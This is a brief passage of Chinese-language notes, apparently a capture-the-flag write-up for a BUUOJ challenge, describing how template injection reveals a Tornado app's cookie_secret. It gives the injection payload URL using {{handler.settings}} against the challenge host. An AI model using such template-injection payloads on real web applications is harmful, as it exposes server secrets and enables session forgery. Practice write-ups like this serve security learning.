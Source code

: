 ```yaml
---
created: 2024-01-29T11:51
updated: 2024-01-29T11:52
---
```

###### 获取cookie_seret
通过模板注入方式我们可以构造**获取cookie_secret的payload：**

http://0ae71843-3ebf-4a5e-a920-b9bd77b4d13f.node4.buuoj.cn:81/error?msg={{handler.settings}}